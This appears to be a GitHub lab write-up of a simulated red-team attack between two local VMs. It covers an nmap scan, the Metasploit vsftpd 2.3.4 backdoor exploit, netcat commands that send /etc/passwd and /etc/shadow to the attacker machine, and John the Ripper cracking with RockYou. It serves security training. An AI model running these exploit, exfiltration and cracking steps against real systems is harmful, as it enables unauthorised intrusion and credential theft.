 
# Simulated Attack – Red Team

## **Step 1 – VM Startup & Reconnaissance**
Power on the attacker and victim VMs, then verify network configuration.


![Spinup](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/Spinupvm.png)


--ip a (check IP)

![verifyIP](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/verify%20ips.png)

Perform a TCP SYN scan with service detection and OS fingerprinting:
--nmap -sS -sV -0 192.168.27.4

![nmap](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/nmapscan.png)

Step 2 – Exploitation

Open Metasploit and load the vulnerable FTP backdoor exploit:

--msfconsole 

![msfconsole](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/msfconsole.png)


--use exploit/unix/ftp/vsftpd_234_backdoor

--set RHOSTS 192.168.27.4

--run

![runPayload](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/runpayload.png)


Step 3 – File Extraction

Transfer /etc/passwd and /etc/shadow from the victim to the attacker using netcat:




--nc -lvnp 9001 > passwd

--nc -lvnp 9002 > shadow

--cat /etc/passwd | nc 192.168.27.5 9001

--cat /etc/shadow | nc 192.168.27.5 9002

![extract](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/extractfiles.png)



Step 4 – Password Cracking

Use john with the RockYou wordlist to crack hashes:

--john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt shadow
![John](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/johnrun.png)

--john -show shadow

![johnshow](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/johnshow.png)
